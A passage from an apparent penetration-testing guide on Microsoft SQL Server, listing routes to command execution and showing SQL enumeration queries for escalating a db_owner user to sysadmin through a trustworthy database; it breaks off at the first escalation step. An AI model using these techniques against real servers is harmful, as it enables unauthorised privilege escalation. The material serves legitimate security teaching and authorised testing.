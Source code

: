```csharp
        public override void ExternalJob(string command, LogBaseService jobLogger)
        {

        }

        public override void Start(IServicesFactory services)
        {

        }

        public override void Stop()
        {

        }


        public void Test()
        {

        }
    }
}
```

### Other ways for RCE

There are other methods to get command execution, such as adding [extended stored procedures](https://docs.microsoft.com/en-us/sql/relational-databases/extended-stored-procedures-programming/adding-an-extended-stored-procedure-to-sql-server), [CLR Assemblies](https://docs.microsoft.com/en-us/dotnet/framework/data/adonet/sql/introduction-to-sql-server-clr-integration), [SQL Server Agent Jobs](https://docs.microsoft.com/en-us/sql/ssms/agent/schedule-a-job?view=sql-server-ver15), and [external scripts](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-execute-external-script-transact-sql).

## MSSQL Privilege Escalation

### From db_owner to sysadmin

If a **regular user** is given the role **`db_owner`** over the **database owned by an admin** user (such as **`sa`**) and that database is configured as **`trustworthy`**, that user can abuse these privileges to **privesc** because **stored procedures** created in there that can **execute** as the owner (**admin**).

```sql
# Get owners of databases
SELECT suser_sname(owner_sid) FROM sys.databases

# Find trustworthy databases
SELECT a.name,b.is_trustworthy_on
FROM master..sysdatabases as a
INNER JOIN sys.databases as b
ON a.name=b.name;

# Get roles over the selected database (look for your username as db_owner)
USE <trustworthy_db>
SELECT rp.name as database_role, mp.name as database_user
from sys.database_role_members drm
join sys.database_principals rp on (drm.role_principal_id = rp.principal_id)
join sys.database_principals mp on (drm.member_principal_id = mp.principal_id)

# If you found you are db_owner of a trustworthy database, you can privesc:
--1. Create a stored procedure to add your user to sysadmin role
USE <trustworthy_db>
```